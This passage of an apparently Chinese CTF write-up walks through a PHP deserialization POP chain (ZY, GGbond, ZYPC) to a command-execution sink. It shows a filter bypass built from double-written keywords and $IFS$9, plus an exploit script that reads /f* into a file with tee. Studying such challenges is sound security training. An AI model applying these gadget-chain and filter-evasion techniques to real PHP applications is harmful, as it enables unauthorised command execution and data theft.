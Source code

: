 ```php

else

  echo "不会这都不会吧";
```

审计代码，可以看出链子尾是ZYPC，从后往前推zypc的invoke方法能被ZY触发，ZY的get方法可以被GGbond触发，GGbond的toString方法可以被ZY触发，ZY的welcome函数可以被user调用

pop链：user->ZY->GGbond->ZY->ZYPC

welcome函数中if条件为真，会将waterbucket序列化为"s:11:'waterbucket';"

ZYPC中的正则匹配过滤了ls，cat，反斜杠等，但被匹配的字符被替换成空，所以这里可以使用双写绕过，space则使用$IFS$9替换。

又因为exec函数的存在，所以可以用tee命令将结果写进文件 

```php
exp：

<?php

class GGbond{

  public $candy;

}

class unser{

  public $obj;

  public $auth;

}

class ZYPC{

  public $cmd='cacatt$IFS$9/f*|teteee$IFS$9a';

}  

class ZY{

  public $obj;

  public $flag;

  public $auth = 's:11:"waterbucket";';

}

$a=new unser();

$a->obj=new ZY();

$a->obj->obj=new GGbond();

$a->obj->obj->candy=new ZY();

$a->obj->obj->candy->flag=new ZYPC();

echo serialize($a);
```
